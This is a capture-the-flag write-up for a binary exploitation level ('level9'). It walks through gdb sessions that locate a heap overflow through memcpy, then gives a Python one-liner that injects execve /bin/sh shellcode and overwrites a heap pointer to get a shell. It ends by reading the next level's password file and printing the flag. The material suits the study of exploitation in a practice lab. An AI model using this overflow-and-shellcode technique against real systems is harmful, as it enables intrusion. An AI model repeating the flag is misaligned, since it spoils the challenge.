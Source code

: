 # level09

## disassemble

```shell
objdump -dC -M intel level9 > source.txt
```

## find_a_vulnerability

### get_first_address_of_the_heap

```shell
gdb level9

# 8048617:	e8 14 ff ff ff       	call   8048530 <operator new(unsigned int)@plt>
# 804861c:	89 c3                	mov    ebx,eax
(gdb) break *0x804861c
(gdb) run BBBB
(gdb) info registers
eax            0x804a008	134520840
```

The fisrst address : `0x804a008`

### memcpy_to_edx

#### call_edx

```
080485f4 <main>:
 [...]
 8048693:       ff d2                   call   edx
 [...]
```

#### memcpy's_vulnerability

* write on heap

```shell
gdb level9
# 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>
# 8048738:	c9                   	leave
(gdb) break *0x8048738
(gdb) run BBBB
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

* segmentation fault

```bash
python2.7 -c 'print("BBBB" * 27)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)
[Inferior 1 (process 6537) exited with code 0110]
```

```bash
python2.7 -c 'print("BBBB" * 28)' > /tmp/exploit.txt
gdb level9
(gdb) run $(cat /tmp/exploit.txt)
Starting program: /home/user/level9/level9 $(cat /tmp/exploit.txt)

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x/42x 0x804a008
0x804a008:	0x08048848	0x42424242	0x42424242	0x42424242
0x804a018:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a028:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a038:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a048:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a058:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a068:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a078:	0x42424242	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000
```

```
First address       : `0x804a008 + 4` --> `0x804a00c` --> "\x0c\xa0\x04\x08"
Second address      : `0x804a008 + 8` --> `0x804a010` --> "\x50\x88\x04\x08"
Segfault's address	: `0x804a078`
```


## exploit

* shellcode (https://www.exploit-db.com/exploits/42428) : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
python2.7 -c 'print( "" \
        + "\x10\xa0\x04\x08" \
        "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"  \
        + ("...." * 20) \
        + "\x0c\xa0\x04\x08" \
        )'\
        > /tmp/exploit.txt
./level9 $(cat /tmp/exploit.txt)
```

## flag

```shell
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```